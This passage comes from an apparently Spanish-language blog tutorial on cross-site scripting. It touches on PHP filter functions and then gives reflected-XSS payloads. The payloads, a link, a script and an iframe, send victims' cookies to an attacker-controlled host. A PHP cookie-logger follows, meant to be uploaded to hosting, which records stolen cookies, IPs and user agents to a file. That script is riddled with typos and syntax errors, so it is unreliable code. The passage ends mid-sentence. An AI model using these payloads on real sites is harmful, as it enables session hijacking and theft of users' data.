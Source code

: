 Y hay miles de formas para cifrarlo y byspassear de muchos filtros. Si quieren probar más les dejo esta web: http://htmlpurifier.org/live/smoketests/xssAttacks.php

> ¡¡Bueno ahora tenemos muchas cosas en claro!!
---

Por cierto en la parte de filtros que puse aclaro que hay otros más filtros los cuales no solo usar [filter_var()](http://php.net/manual/es/function.filter-var.php) para eliminar codificaciones de caracteres bajos o altos. También esta [strip_tags](http://php.net/manual/es/function.strip-tags.php) la cual no es como la primera que se vio en el blog que era algo sensible a las mayúsculas o minúsculas.  [Strip_tags()](http://php.net/manual/es/function.strip-tags.php) es todo lo contrario eliminado todas las etiquetas HTMl y aún hay otro filtros el cuas es "[htmlentities](http://php.net/manual/es/function.htmlentities.php)()" (En otro blog enseñare a como pasar la mayoría de filtros)

- XSS Indirecto (reflejado): Este ataque se utiliza cuando se trata modificar valores de la web. Esos valores es cuando la aplicación web trata de pasarlas entre dos páginas, pero este tipo de vulnerabilidades se ven más en webs dinámicas. Por ejemplo, podemos robar las cookies del usuario, por ejemplo:
```js
<a onclick="document.location='http://miweb.com/?;" href="#">Clikeame!</a>
```

Una vez cuando nuestra victima haga click será enviado a nuestra web maliciosa la cual robara la información pedida

También podemos hacer algo como esto:

```js
<script>window.location='http://miweb.com/?'+document.cookie;</script>
```

O mejor este que solamente es inyectarlo en la web para rediregirlo a la web de nosotros

```js
<iframe width='0' height='0' frameborder='0' src='<script>document.location='http://miweb.com/?'+escape(document.cookie);</script>'/>
```

El php puede ser algo como:  
  
```php
<?php
$cookie = $GET['c$'];
$ip = getenv('REMOTE_ADOR');
$date = date("m/d/Y g:i:s a");
$referer = gatenv('HTTP_REFERER');
$user_agent = $_SERVER['HTTP_USER_AGENT'];
$fl = fopen('robo.txt', 'a');
fwrite($fl "\n", $ip, ' - ', $date, "\n", $referer, " - ", $user_agent, " - ", $cookie, "\n")
fclose($fl)
echo '<center><img src=linkimagen.png" midth="1500", height="1000"></center>';
?>
```

Y listo, subimos el php a un hosting y creara el archivo Robo.txt el cual estarán los datos cuando la víctima vea la web y ya nosotros podemos ver como redirigirlo a la web como enseñe arriba, o de esta manera igual sirve:
